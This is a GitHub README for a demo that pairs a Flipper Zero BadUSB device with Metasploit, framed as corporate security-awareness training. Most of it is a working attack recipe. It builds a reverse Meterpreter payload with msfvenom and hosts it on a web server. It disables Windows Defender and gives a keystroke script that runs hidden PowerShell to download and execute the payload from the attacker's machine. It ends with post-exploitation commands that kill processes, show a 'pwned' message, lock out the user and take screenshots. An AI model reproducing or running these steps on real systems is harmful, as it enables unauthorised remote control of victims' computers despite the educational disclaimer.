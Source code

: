 # FlipperZero_Metasploit_Demo

# Flipper Zero + Metasploit GUI Attack Demo

## Overview

This demo showcases a simulated USB drop attack using **Flipper Zero** with a **BadUSB payload**, delivering a **reverse Meterpreter shell** to a Kali Linux machine and executing a GUI-based post-exploitation effect on the target Windows system. The objective is to raise awareness among non-technical audiences about how seemingly harmless USB devices can lead to complete system compromise.

The payload includes a reverse shell, custom ASCII art, and a Notepad popup that reinforces the impact — all executed with zero user interaction beyond the USB plug-in.

---

## 🖥️ Hardware & Tools Required

* **Flipper Zero** (with BadUSB functionality enabled)
* **Kali Linux VM** (tested on 2025.2)
* **Windows 10/11 VM** (with Windows Defender disabled)
* VirtualBox / VMware / Hyper-V or similar hypervisor
* Internet access (for initial setup only)

---

## ⚙️ Setup Instructions

### 1. Kali Linux Setup

**Install Metasploit (if not installed):**

```bash
sudo apt update && sudo apt install metasploit-framework -y
```

**Generate payload (only once):**

```bash
msfvenom -p windows/meterpreter/reverse_http LHOST=<KALI_IP> LPORT=8080 -f exe -o payload.exe
```

Place `payload.exe` in a folder named `web_payload` and start a web server:

```bash
cd web_payload
python3 -m http.server 80
```

**Start Metasploit listener:**

```bash
msfconsole
```

```msf
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_http
set LHOST <KALI_IP>
set LPORT 8080
set ExitOnSession false
exploit -j
```

---

### 2. Windows VM Setup

* Disable Windows Defender:

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

* Ensure Windows and Kali VMs are on the same network (bridged or host-only).
* Note your Kali IP address using `ip a` or `ipconfig`.

---

### 3. Flipper Zero Script

Upload the following BadUSB script to your Flipper:

```txt
DELAY 1000
GUI r
DELAY 1000
STRING powershell
ENTER
DELAY 1500
STRING powershell -w hidden -nop -Command "iwr http://<KALI_IP>/payload.exe -OutFile $env:TEMP\payload.exe; Start-Process $env:TEMP\payload.exe"
ENTER
```

Replace `<KALI_IP>` with your Kali VM’s IP address.

---

## 🎯 How the Demo Works

1. Flipper types the PowerShell command that fetches and executes the payload.
2. Metasploit listener on Kali receives the reverse shell.
3. You gain a Meterpreter session and can interact with the target system.
4. For dramatic effect, Notepad opens with custom ASCII art and a scary message.

---

## 🎭 Visual Payload (Post-Exploitation)

Once session is active, run:

```msf
execute -f cmd.exe -a "/c tskill explorer & tskill chrome & timeout /t 1 >nul & echo   ░▒▓███████▓▒░   > %TEMP%\pwned.txt && echo ░▒▓██ YOU'VE BEEN ██▓▒░ >> %TEMP%\pwned.txt && echo   ░▒▓███  PWNED  ███▓▒░ >> %TEMP%\pwned.txt && echo     ░▒▓█████████▓▒░ >> %TEMP%\pwned.txt && echo. >> %TEMP%\pwned.txt && echo  Your system belongs to us... >> %TEMP%\pwned.txt && echo  Resistance is futile. >> %TEMP%\pwned.txt && echo  ▄︻̷̿┻̿═━一 💀💀💀💀💀 >> %TEMP%\pwned.txt && start notepad %TEMP%\pwned.txt"
```

---

## 💡 Optional Enhancements

* **Lock Input:**

```msf
run post/windows/manage/lockout_user
```

* **Take Screenshot:**

```msf
screenshot
```

---

## 🔁 Reproducibility Notes

* Use a fixed payload filename (like `payload.exe`) to avoid changing Flipper scripts.
* Network setup must ensure Windows can reach the Kali-hosted HTTP server.
* Metasploit must be started before payload is executed.

---

## 📌 Educational Purpose Only

This demo is intended solely for security awareness training within controlled environments. Never attempt this on unauthorized systems.

---

## 📷 Screenshots

* Reverse shell connection shown in Metasploit
* Notepad popup with ASCII message on Windows VM

---

## ✅ Status

Demo verified: **Working 100% with Flipper Zero BadUSB + Metasploit Reverse HTTP Payload**

---

## 🔗 Credits

* Original HoaxShell idea by Panagiotis Chartas
* Modified and repurposed by Teja for internal Siemens Energy Cybersecurity demo
